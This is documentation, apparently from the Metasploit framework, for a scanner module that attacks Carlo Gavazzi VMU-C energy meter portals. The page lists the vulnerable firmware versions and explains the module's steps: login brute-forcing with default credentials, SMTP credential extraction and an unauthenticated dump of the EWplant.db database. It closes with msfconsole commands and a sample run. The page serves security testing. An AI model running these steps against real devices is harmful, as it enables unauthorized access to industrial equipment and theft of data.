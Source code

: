 This module scans for Carlo Gavazzi Energy Meters login portals, performs a login brute force attack, enumerates device firmware version, and attempt to extract the SMTP configuration.
A valid, admin privileged user is required to extract the SMTP password. In some older firmware versions, the SMTP config can be retrieved without any authentication.

The module also exploits an access control vulnerability which allows an unauthenticated user to remotely dump the database file EWplant.db.
This db file contains information such as power/energy utilization data, tariffs, and revenue statistics.

Vulnerable firmware versions include:

* VMU-C EM prior to firmware Version A11_U05
* VMU-C PV prior to firmware Version A17.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/gavazzi_em_login_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/gavazzi_em_login_loot
msf auxiliary(gavazzi_em_login_loot) > set rhosts 1.3.3.7
msf auxiliary(gavazzi_em_login_loot) > set rport 80
msf auxiliary(gavazzi_em_login_loot) > run

[+] 1.3.3.7:80 - [1/1] - Running Carlo Gavazzi VMU-C Web Management portal...
[*] 1.3.3.7:80 - [1/1] - Trying username:"admin" with password:"admin"
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "admin":"admin"
[+] 1.3.3.7:80 - Firmware version A8_U03...
[+] 1.3.3.7:80 - SMTP server: "", SMTP username: "", SMTP password: ""
[*] 1.3.3.7:80 - dumping EWplant.db
[+] 1.3.3.7:80 - EWplant.db retrieved successfully!
[+] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000005_moduletest_1.3.3.7_EWplant.db_501578.db
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
